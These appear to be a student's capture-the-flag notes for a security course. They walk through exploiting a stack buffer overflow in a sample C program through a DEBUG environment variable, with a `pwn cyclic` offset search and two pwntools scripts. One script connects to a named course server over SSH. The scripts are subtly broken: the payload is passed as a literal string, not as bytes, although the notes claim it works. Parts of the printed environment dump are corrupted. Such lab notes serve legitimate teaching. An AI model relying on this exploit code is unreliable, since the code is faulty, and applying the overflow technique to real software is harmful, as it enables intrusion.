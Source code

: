 #CS4401 #CTF

### Common causes of SegFault after the exploit function is called
#memory 
- use python 2.7 instead of python3 for pwntools
- Forgot to create flag.txt
- MOVAPS
	- Deals with address space
	- movaps requires the stack to be properly aligned (at a multiple of 16-bytes)
	- misalignment of the stack: rsp is not at an aligned address
	- **Questions**
		- What causes misalignment of the stack
		- Why does this cause a SegFault
	- Ctrl+D creates an EOF indicator
`stack1.c`
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <err.h>


int main(int argc, char **argv){
	volatile int debug_password;
	char buffer[{{buffsize}}];
	char *generator_mode;
	FILE *fp;  
	
	generator_mode = getenv("DEBUG");
	//2: what are environment variables
	if(generator_mode == NULL) {
		errx(1, "Please set the DEBUG environment variable\n");
	}

	debug_password = 0;
	//1: how does string copy work?
	strcpy(buffer, generator_mode);
	fp = fopen("./flag.txt", "r");

	if(debug_password == 0x0d0a0d0a) {
		printf("You have correctly entered Debug Mode\n");
		printf("Verbosity level of errors increased\n");
		fgets(buffer, 64, (FILE*)fp);
		printf("flag: %s\n", buffer );
		exit(0);
	} 
	else {
		printf("Try again, you got 0x%08x\n", debug_password);
	}  

}
```
possible sources of error for solving a challenge
- Make sure ASLR is off on the docker container
- Make sure you are using address layout from the course server
- Make sure you have a `flag.txt` file in your directory

1. How does `strcpy()` work?
	- Reads all characters given to it, can cause a buffer overflow
	- <mark style="background: #FF5582A6;">read the man page!!</mark>
2. What are Environment variables
	1. Environment variables in shell session for epic treasure container
#### `printenv` command output
```
root@a94da7bd1fca:~/host-share# printenv
SHELL=/bin/bash
TERM_PROGRAM_VERSION=3.2a
TMUX=/tmp/tmux-0/default,8,0
HOSTNAME=a94da7bd1fca
LANGUAGE=en_US:en
PWD=/root/host-share
HOME=/root
LANG=en_US.UTF-8
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:1st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.=tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz*=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.;zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01p;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svdgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.webp=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;.35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
LESSCLOSE=/usr/bin/lesspipe %s %s
TERM=screen-256color
LESSOPEN=| /usr/bin/lesspipe %s
TMUX_PANE=%0
SHLVL=1
DEBUGINFOD_URLS=
LC_ALL=en_US.UTF-8
PATH=/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/root/.fzf/bin
test=false
TERM_PROGRAM=tmux
_=/usr/bin/printenv
root@a94da7bd1fca:~/host-share#
```
	2. Set the DEBUG environment variable to the exploit_str: `export DEBUG='hellow'`
	3. `echo $DEBUG`

3. Determine the Offset
	1. Open in GDB, find addr of `buffer` and addr of `debug_password`
4. PWN CYCLIC
	1. `pwn cyclic 200`
		1. creates de bruin sequence of 200 characters long
	2. `pwn cyclic -l aaaa`
		1. Tells index of particular subset of the sequence; this will output `0`
	3. de bruin sequence used to help find length of the buffer
5. Use cyclic in environment variables: `export DEBUG = (backtic)pwn cyclic 200(backtic)`
	1. Backticks can be used as a way to set output of a script to an environment variable
6. input: DEBUG=`python2 -c 'a'*108 + '\x0d\x0a\x0d\x0a'`
	1. `try again addr was: 0x000d0a0d`
	2. export drops off trailing newlines
	3. sidestep this problem by not using export
	4. USE PWNTOOLS #pwntools
```python
from pwn import *

pattern = 0x0d0a0d0a
#set env vars with a dictionary
p = process('./stack1-64', env = {"DEBUG": "b'a'*108+p64(pattern)"})
p.interactive()
```
Yeah this works

with ssh
```python
from pwn import *

pattern = 0x0d0a0d0a
#set env vars with a dictionary

s = ssh('kcjesse', 'cs4401shell.walls.ninja', keyfile='./keys/kcjesse_ssh_key')

s.set_working_directory('/problems/stack1r-64_3_3d33185932f577a48072cc8b458bc93b/')

p = s.process('./stack1-64', env = {"DEBUG": "b'a'*108+p64(pattern)"})
p.interactive()
```
